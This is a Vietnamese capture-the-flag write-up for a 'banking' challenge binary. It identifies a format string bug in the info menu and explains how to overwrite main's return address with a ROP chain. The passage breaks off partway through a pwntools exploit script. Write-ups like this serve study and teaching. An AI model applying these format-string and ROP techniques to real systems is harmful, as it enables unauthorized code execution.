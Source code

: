 * Sau khi login chúng ta có `4` option

![Screenshot 2024-05-13 155020](https://hackmd.io/_uploads/B1QPVIkmR.png)

* `Deposit`

![Screenshot 2024-05-13 155049](https://hackmd.io/_uploads/Bk1Y4U1X0.png)

* Người dùng nhập `1` số và cộng vào biến `money`
* `withdraw`

![Screenshot 2024-05-13 155131](https://hackmd.io/_uploads/HJjiNLJXA.png)

* Người dùng nhập `1` số và trừ khỏi `money` nếu số đó bé hơn `money`
* `info` 

![Screenshot 2024-05-13 155216](https://hackmd.io/_uploads/BJpTELyXR.png)

* Ta thấy được ngay bug `format string`

### Khai thác

* Ở đây là bug format string với `1` biến global nên mình phải tìm `1` giá trị stack trỏ đến `1` giá trị stack khác để overwrite địa trỉ trả về của `main`

![Screenshot 2024-05-13 155626](https://hackmd.io/_uploads/BkApr8yQR.png)

* Địa chỉ `0x00007ffeceaae790` ở `0x7ffeceaae6b0` trỏ đến `0x00007ffeceaae8e8` với `2` offset tương ứng trong format string là `13` và `40`
* Từ đó thì mình build rop chain thôi

![Screenshot 2024-05-13 155423](https://hackmd.io/_uploads/SJ1m8Lym0.png)

```py=
#!/usr/bin/python3
from pwn import *

sla = lambda delim, data: p.sendlineafter(delim, data)
sa = lambda delim, data: p.sendafter(delim, data)
s = lambda data: p.send(data)
sl = lambda data: p.sendline(data)
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()


elf = context.binary = ELF('banking')
libc = ELF('libc.so.6')

def int_from_bytes(bytes):
    return int.from_bytes(bytes, byteorder='little')
def reg(name, pw, fullname):
    sla(b'>', b'2')
    sla(b'name', name)
    sla(b'word', pw)
    sla(b'name', fullname)
    sla(b'>', b'1')
    sla(b'name', name)
    sla(b'word', pw)
def info():
    sla(b'>', b'3')
def logout():
    sla(b'>', b'4')
def gen_fmstr(addr, value):
    payload = b''
    if addr & 0xffff != 0:
```